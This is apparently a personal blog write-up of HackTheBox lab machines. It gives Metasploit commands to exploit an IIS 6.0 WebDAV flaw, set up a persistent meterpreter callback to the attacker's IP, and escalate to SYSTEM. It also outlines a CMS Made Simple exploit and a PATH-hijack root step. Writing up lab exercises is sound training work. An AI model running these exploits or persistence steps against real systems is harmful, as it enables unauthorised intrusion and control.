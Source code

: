 ```yaml
---
title: "HackTheBox - WriteUp 6"
date: 2019-06-14T14:07:30+08:00
description: "HackTheBox 练手 - Grandparents - MSF for Windows Target"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Grandpa & Granny

That really sucks. Even I use VPS in New York which result in ping response always in 20ms, it still failed to get connected from victim.

## MSF way

### Warm up

Nmap Scanned: Port 80 opened. IIS httpd 6.0 with Windows Server 2003.

### Normal User

Run these commands in `msfconsole`:

```bash
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
exploit
```

Then use these commands in meterpreter to stablize it:

```bash
run persistence -X -U -A -L %TEMP% -r 10.10.14.6 -p 4455
getuid
> Permission denied
migrate 2212    # davcdata.exe
getuid
> NT AUTHORITY\NETWORK SERVICE
bg
```

In fact, finally, I migrate to `wmiprvse.exe`. And wait for a long time before privilege escalation.

### Administrator / System

> Due to the fucking network on my VPS, this step took me a lot of time. So you must ensure your network stablity is really well.

```bash
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION 1
exploit
bg
sessions -i 1
getuid
> NT AUTHORITY\SYSTEM
download "C:\Documents and settings\harry\desktop\user.txt"
download "C:\Documents and settings\administrator\desktop\root.txt"
```
Privilege Escalated. Finished.

## OSCP way

TBD

# Writeup

Remember It's a EASY box.

This box has fail2ban mechanism, stop using automated tools, eg. SQLMAP.

## User

Use `nmap -A -O 10.10.10.138` to get the result.

You will find a `robots.txt` and a path `/writeup`.

Check the page source code, "CMS Made Simple" generated. Then `searchsploit` and choose the `46635.py`, finally, crack with `rockyou` in kali built-in wordlist.

## Root

> The quieter you are, the more you are able to hear.

Use Linenum to check the directory/files you can write. Then pay attention to PATH.

Next, run pspy64 and generate some traffic with login again.

You will find `run-parts` seems to be running in root and with a specific PATH in absolute path of the run-parts. According to the order of PATH, you just create a script, and `ln -s` to `/usr/local/bin`, then, you'll get it.

(DONE)



